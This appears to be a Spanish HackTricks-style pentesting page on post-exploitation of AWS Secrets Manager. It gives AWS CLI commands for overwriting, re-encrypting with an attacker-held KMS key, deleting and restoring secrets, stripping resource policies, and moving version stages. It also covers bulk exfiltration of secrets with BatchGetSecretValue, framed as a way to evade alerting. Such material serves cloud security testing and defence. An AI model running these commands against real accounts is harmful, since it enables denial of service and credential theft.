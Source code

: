 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Para más información consulta:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Leer Secrets

Los **secrets** son información sensible; [consulta la página de privesc](../aws-privilege-escalation/aws-secrets-manager-privesc.md) para aprender cómo leerlos.

### DoS - Cambiar el valor del secret

Al cambiar el valor del secret podrías **DoS a todos los sistemas que dependen de ese valor.**

> [!WARNING]
> Ten en cuenta que los valores anteriores también se almacenan, por lo que es fácil volver al valor anterior.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Si el atacante tiene el permiso secretsmanager:UpdateSecret, puede configurar el secreto para que use una KMS key propiedad del atacante. Esa clave se configura inicialmente de modo que cualquiera pueda acceder y usarla, por lo que es posible actualizar el secreto con la nueva clave. Si la clave no fuera accesible, no se podría actualizar el secreto.

Después de cambiar la clave del secreto, el atacante modifica la configuración de su clave para que solo él pueda acceder a ella. De esta manera, en las versiones subsecuentes del secreto, estará cifrado con la nueva clave y, al no haber acceso a ésta, se perdería la posibilidad de recuperar el secreto.

Es importante señalar que esta inaccesibilidad solo ocurrirá en versiones posteriores, tras el cambio del contenido del secreto, ya que la versión actual sigue estando cifrada con la KMS key original.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

El número mínimo de días para eliminar un secret es 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Es posible restaurar un secreto, lo que permite la recuperación de secretos que han sido programados para eliminación, ya que el periodo mínimo de eliminación para secretos es de 7 días y el máximo es de 30 días. Junto con el permiso secretsmanager:GetSecretValue, esto permite recuperar sus contenidos.

Para recuperar un secreto que está en proceso de eliminación, puedes usar el siguiente comando:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Esta acción permite eliminar la política de recursos que controla quién puede acceder a un secreto. Esto podría provocar un DoS si la política de recursos estaba configurada para permitir el acceso a un conjunto específico de usuarios.

Para eliminar la política de recursos:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Los estados de un secreto se usan para gestionar las versiones de un secreto. AWSCURRENT marca la versión activa que usan las aplicaciones, AWSPREVIOUS conserva la versión anterior para que puedas volver atrás si es necesario, y AWSPENDING se usa en el proceso de rotación para preparar y validar una nueva versión antes de convertirla en la actual.

Las aplicaciones siempre leen la versión con AWSCURRENT. Si alguien mueve esa etiqueta a la versión equivocada, las aplicaciones usarán credenciales inválidas y pueden fallar.

AWSPREVIOUS no se usa automáticamente. Sin embargo, si AWSCURRENT se elimina o reasigna incorrectamente, puede parecer que todo sigue funcionando con la versión anterior.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}

### Exfiltración masiva de secretos mediante BatchGetSecretValue (hasta 20 por llamada)

Abusa de la API Secrets Manager BatchGetSecretValue para recuperar hasta 20 secretos en una sola solicitud. Esto puede reducir drásticamente el volumen de llamadas API en comparación con iterar GetSecretValue por cada secreto. Si se usan filtros (tags/name), también se requiere el permiso ListSecrets. CloudTrail aún registra un evento GetSecretValue por cada secreto recuperado en el lote.

Permisos requeridos
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue para cada secret objetivo
- secretsmanager:ListSecrets si se usan --filters
- kms:Decrypt en las CMKs usadas por los secretos (si no se usa aws/secretsmanager)

> [!WARNING]
> Ten en cuenta que el permiso `secretsmanager:BatchGetSecretValue` no es suficiente por sí solo para recuperar secretos; también necesitas `secretsmanager:GetSecretValue` para cada secreto que quieras recuperar.

Exfiltrar mediante lista explícita
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate por filtros (tag key/value o name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Manejo de fallos parciales
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Impacto
- Extracción rápida “smash-and-grab” de muchos secretos con menos llamadas a la API, potencialmente eludiendo alertas ajustadas a picos de GetSecretValue.
- Los registros de CloudTrail todavía incluyen un evento GetSecretValue por cada secreto recuperado por el lote.
